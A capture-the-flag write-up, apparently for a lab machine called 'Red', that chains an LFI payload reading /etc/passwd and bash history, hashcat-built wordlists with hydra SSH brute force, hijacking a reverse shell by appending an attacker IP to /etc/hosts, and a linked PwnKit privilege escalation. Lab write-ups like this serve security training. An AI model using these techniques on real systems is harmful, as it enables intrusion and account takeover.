# Red

Scanning for target, we discover 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image.png)

Looking around the website and source code didn't give us any leads. 

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%201.png)

But the URL gave us an idea to try out Local File Inclusion (LFI) using PHP wrapper. And as expected we got a lead. We were able to retrieve the `/etc/passwd` file from the machine.

`http://10.10.81.76/index.php?page=php://filter/resource=/etc/passwd`

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%202.png)

From the file we got to see the existence of two users `blue` and `red` . Next we retrieved the contents of `.bash_history` from `/home/blue` . This revealed that a passlist was generated with a file `.reminder`  as the base and `best64.rule` ruleset using hashcat.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%203.png)

We retrieved the contents of `.reminder` and used hashcat and same ruleset to create a passlist.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%204.png)

`hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt` 

From there we used the passlist and the username blue to brute force our way in through SSH using hydra.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%205.png)

Now we have access to the machine as blue. From here we get the fist flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%206.png)

As we progressed by checking through the folders and files we were getting kicked out from the machine from time to time and red was taunting us with his quips. This means some process is running in the background which enables him to do so. So we used `pspy64` by running it in`/tmp` folder.  This reveals a command being run that tries to establish a reverse shell to server `redrules.thm`  on port 9001.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%207.png)

Checking for files with writable permissions for blue, we find `/etc/hosts` is one of them

`find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)’`

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%208.png)

Examining the hosts file we find the address `redrules.thm` resolved to an IP address.  Now we try to change the IP to our ATTACKER machine IP but we are not able to do so. Checking the permissions of the file using`lsattr /etc/hosts` reveal: `-----a--------e----- /etc/hosts` . That is we can append  it. Therefore `echo [attackboxIP] redrules.thm >> /etc/hosts` will work. We setup  a `netcat` on port 9001 and wait.

[PS :Red keeps changing contents of `/etc/hosts` so keep an eye out whether our changes are still there.]

Viola we get access as user red on the machine and the second flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%209.png)

Digging into the hidden files leads us to `.git` folder. Which contains `pkexec` , Hmmm not the usual place for it. 

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2010.png)

Checking the version we find it as `0.105` . Quick google and we find an exploit.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2011.png)

Quick search in google takes us to a GitHub repository with the exploit.

[https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

Running it gets us the root access and the final flag.

![image.png](Red%201ba2d054194881259804d3ba681b6a3b/image%2012.png)